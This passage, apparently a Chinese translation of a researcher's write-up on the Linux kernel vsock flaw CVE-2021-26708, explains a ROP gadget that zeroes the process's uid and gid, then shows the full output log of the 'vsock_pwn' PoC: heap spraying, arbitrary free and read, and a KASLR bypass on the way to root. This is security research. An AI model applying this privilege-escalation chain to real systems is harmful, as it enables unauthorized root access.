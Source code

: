 <div lang="chinese" dir="ltr" class="mw-content-ltr">
由於在vmlinuz-5.10.11-200.fc33.x86_64中找不到一個能滿足我需求的gadget，所以我自己進行了研究構造。

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
callback函數指針存儲一個ROP gadget 地址，RDI存儲callback函數的第一個參數，也就是ubuf_info本身的地址，RDI + 8指向ubuf_info.desc。 gadget 將ubuf_info.desc移動到RDX。現在RDX包含有效用戶ID和組ID的地址減一個字節。這個字節很重要：當gadget從 RSI向 RDX指向的內存中寫入消息1時，有效的 uid和 gid將被零覆蓋。重複同樣的過程，直到權限升級到root。整個過程輸出流如下：

</div>
    [a13x@localhost ~]$ ./vsock_pwn

    =================================================
    ==== CVE-2021-26708 PoC exploit by a13xp0p0v ====
    =================================================

    [+] begin as: uid=1000, euid=1000
    [+] we have 2 CPUs for racing
    [+] getting ready...
    [+] remove old files for ftok()
    [+] spray_data at 0x7f0d9111d000
    [+] userfaultfd #1 is configured: start 0x7f0d91121000, len 0x1000
    [+] fault_handler for uffd 38 is ready

    [+] stage I: collect good msg_msg locations
    [+] go racing, show wins:
        save msg_msg ffff9125c25a4d00 in msq 11 in slot 0
        save msg_msg ffff9125c25a4640 in msq 12 in slot 1
        save msg_msg ffff9125c25a4780 in msq 22 in slot 2
        save msg_msg ffff9125c3668a40 in msq 78 in slot 3

    [+] stage II: arbitrary free msg_msg using corrupted msg_msg
        kaddr for arb free: ffff9125c25a4d00
        kaddr for arb read: ffff9125c2035300
    [+] adapt the msg_msg spraying payload:
        msg_ptr 0x7f0d91120fd8
        m_type 1337 at 0x7f0d91120fe8
        m_ts 6096 at 0x7f0d91120ff0
        msgseg next 0xffff9125c2035300 at 0x7f0d91120ff8
    [+] go racing, show wins:

    [+] stage III: arbitrary read vsock via good overwritten msg_msg (msq 11)
    [+] msgrcv returned 6096 bytes
    [+] Found sk_memcg ffff9125c42f9000 (offset 4712 in the leaked kmem)
    [+] Found owner cred ffff9125c3fd6e40 (offset 4888 in the leaked kmem)
    [+] Found sock_def_write_space ffffffffab9851b0 (offset 4736 in the leaked kmem)
    [+] Calculated kaslr offset: 2a000000

    [+] stage IV: search sprayed skb near sk_memcg...
    [+] checking possible skb location: ffff9125c42fa000
    [+] stage IV part I: repeat arbitrary free msg_msg using corrupted msg_msg
        kaddr for arb free: ffff9125c25a4640
        kaddr for arb read: ffff9125c42fa030
    [+] adapt the msg_msg spraying payload:
        msg_ptr 0x7f0d91120fd8
        m_type 1337 at 0x7f0d91120fe8
        m_ts 6096 at 0x7f0d91120ff0
        msgseg next 0xffff9125c42fa030 at 0x7f0d91120ff8
    [+] go racing, show wins: 0 0 20 15 42 11
    [+] stage IV part II: arbitrary read skb via good overwritten msg_msg (msq 12)
    [+] msgrcv returned 6096 bytes
    [+] found a real skb
